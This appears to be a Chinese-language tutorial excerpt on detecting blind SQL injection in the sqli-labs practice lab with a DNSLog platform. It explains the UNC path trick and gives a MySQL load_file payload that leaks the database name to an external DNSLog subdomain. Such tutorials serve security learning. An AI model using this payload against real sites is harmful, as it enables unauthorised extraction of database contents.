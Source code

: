 ```
查询确认为空，说明可以进行读写操作了。
show variables like '%secure_file_priv%';
```

![image-20241124200702432](Dnslog漏洞检测/image-20241124200702432.png)	

```
这里以sqli-labs靶场为例子。直接注入会发现没有会显出来。
?id=1--+
```

![image-20241124195949818](Dnslog漏洞检测/image-20241124195949818.png)	

```
由于无回显就可以使用dnslog了。
首先我们打开DNSLog的平台，点击 Get SubDomain获取一个子域名。
然后将需要读取的文件替换为DNSLog平台获取到的子域名地址，这里需要注意的是经过转义之后是\\，是Windows系统里常用的UNC路径的格式，而后面的 /test 是必须要写的，它代表着UNC路径里一个文件夹的名字，当然文件夹的名字可以随你怎么取都行，总而言之正确的格式就是这样。整条语句的意思就是取读取一个文件夹，我们在UNC路径中添加了DNSLog平台的地址，让这条语句在执行时能够去访问我们的DNSLog平台，从而产生解析记录。

直接通过dnslog获得无回显的结果。
#原始的payload
?id=1' and if((select load_file(concat('////',database(),'.if0k8v.dnslog.cn/wuya'))),1,0) --+
```
